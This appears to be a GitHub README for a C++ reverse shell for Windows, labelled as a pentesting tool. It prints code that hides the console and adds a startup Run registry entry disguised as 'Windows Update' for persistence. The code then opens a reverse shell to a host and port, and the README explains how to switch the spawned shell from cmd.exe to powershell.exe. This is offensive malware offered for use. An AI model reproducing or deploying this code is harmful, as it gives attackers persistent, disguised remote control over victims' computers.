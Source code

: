 # reverse-shell
a basic reverse shell for windows operating systems in c++

# This is not malware this is for pentesting!!!
Here is the initialize shell code
```cpp
    FreeConsole();

    HKEY hkey = NULL;
    LONG createStatus = RegCreateKey(HKEY_CURRENT_USER, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", &hkey);     
    LONG status = RegSetValueEx(hkey, "Windows Update", 0, REG_SZ, (BYTE*)argv[0], (std::string(argv[0]).size() + 1) * sizeof(wchar_t));

    char host[] = "localhost";
    int port = 0xDEAD;
    RunShell(host, port);
```

# Features
Infect Windows Startup with registry
Reverse Shell via raw sockets
If you want to pop something else than cmd you change this line
```cpp
char Process[8] = "cmd.exe";
```

to for example powershell
```cpp
char Process[15] = "powershell.exe";
```
